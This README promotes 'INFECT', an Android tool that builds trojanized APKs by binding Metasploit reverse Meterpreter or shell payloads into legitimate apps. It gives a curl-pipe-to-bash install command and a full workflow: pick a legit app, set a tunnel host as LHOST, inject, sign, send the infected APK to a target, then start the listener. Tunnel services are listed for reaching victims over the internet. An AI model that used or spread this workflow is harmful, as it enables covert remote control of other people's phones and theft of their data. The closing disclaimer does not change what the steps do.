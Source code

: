 # INFECT - Advanced APK Payload Injector

![Infect Banner](infect_preview.jpg)

**INFECT** is a professional Android penetration testing tool that creates fully functional trojanized APKs with embedded Metasploit payloads while maintaining the original app's functionality.

## 🔥 Premium Features

✔ **Complete Infection Workflow**  
- Automated payload injection  
- Original functionality preservation  
- One-click listener setup  

✔ **Advanced Payload Options**  
- Meterpreter (TCP/HTTP/HTTPS)  
- Shell reverse TCP  
- Custom payload configuration  
- Automatic listener generation  

✔ **Professional Toolchain**  
- APKEditor integration  
- Multi-engine decompilation  
- Auto-signing with zipalign  

✔ **Tunnel Service Support**  
- Native Ngrok integration  
- Portmap.io compatibility  
- Playit.gg support  
- Local network testing  

## 📦 Installation

Install with one command in Termux:

```bash
curl -sL https://termuxvoid.github.io/repo/install.sh | bash && apt install infect -y
```

## 🛠️ Dependencies

Automatically installed:
- APKTool (`apktool`)
- APKEditor (`apkeditor`)
- Metasploit Framework (`msfvenom`)
- Java Signing Tools (`apksigner`, `jarsigner`, `keytool`)

## 🚀 Quick Start

1. Launch the tool:
```bash
infect
```

2. Main Menu Options:
```
[1] Bind payload to APK - Create trojanized application
[2] Start Metasploit listener - Ready-to-use handler
[3] Troubleshooting - View documentation
[4] Exit
```

## 💻 Complete Workflow Example

```bash
# Start the tool
infect

# Select option 1 (Bind payload)
# Choose target APK: /sdcard/Download/legit_app.apk
# Set LHOST: your-sub.portmap.io:54321
# Set LPORT: 4444
# Select payload type: android/meterpreter/reverse_https
# Output name: infected_app

# The tool will:
# 1. Decompile both APKs using APKEditor
# 2. Merge permissions and manifests
# 3. Inject payload smali code
# 4. Rebuild and sign the APK

# Transfer infected_app_signed.apk to target
# Start listener directly from the tool (option 2)
```

## 🎯 Advanced Features

**Integrated Metasploit Listener**
- Auto-configured handler
- Payload type matching
- Persistent session management

**Smart APK Processing**
- Automatic activity injection
- Permission analysis
- Manifest merging
- Resource preservation

**Tunnel Service Support**
```bash
Supported Formats:
- Direct IP: 192.168.1.100
- Ngrok: 0.tcp.ngrok.io:12345
- Portmap: your-sub.portmap.io:12345
- Playit: your-sub.playit.gg:12345
```

## 🧰 Technical Specifications

| Component       | Details                          |
|----------------|----------------------------------|
| Core Engine    | APKEditor + APKTool              |
| Payload System | Metasploit Framework             |
| Signing        | APKSigner + Jarsigner            |
| Compatibility  | Android 5.0+ (API 21+)           |
| Output         | Production-ready signed APK      |

## ⚠️ Legal Disclaimer

**This tool is for authorized security testing only.** Unauthorized use against systems you don't own or have explicit permission to test is illegal. The developers assume no liability for misuse.

## 📜 License

 BSD-3-Clause license

## 📬 Support

For bug reports and feature requests:  
[GitHub Issues](https://github.com/Anon4You/Infect/issues)  

For professional support and custom integrations:  
https://t.me/nullxvoid

---

**Ethical Notice:** Always obtain proper written authorization before conducting any security testing. Maintain logs of all testing activities.
